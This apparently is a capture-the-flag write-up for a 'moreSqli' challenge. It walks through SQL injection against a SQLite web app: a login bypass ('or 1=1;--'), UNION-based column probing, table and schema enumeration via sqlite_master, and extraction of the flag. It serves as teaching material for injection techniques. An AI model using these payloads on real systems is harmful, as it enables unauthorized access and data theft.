







# solution of moreSqli

## 1- bypassing the login

- when we try to login using username = admin and password = admin the response page gives us a query that is being excuted 

```SQL
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin'
``` 
- so we can see that the password is the first field in the query so our injection should be there 
```
username= blah
password = blah' or 1=1;--
```


## 2- retrieving the data from the search box and the display

- since there is 3 attributes dispalyed one the table so i assumed there is three and i injected the following:
```SQL
algiers' union select 1,2,3;--
```

- i tried to retrieve the database version

```SQL
algiers' union select 1,2,sqlite_version();--
```

- next i tried to enumerate tables of the database other than system tables

```SQL
algiers' union select 1,2,tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--
``` 

and we get : users,more_table,offices,users.

- now its time to retrieve the structure of each table
```SQL
algiers' union select 1,2,sql from sqlite_master;--
```


- and finally we have evrything to get the flag

```SQL
algiers' union select 1,id,flag from more_table;--
```


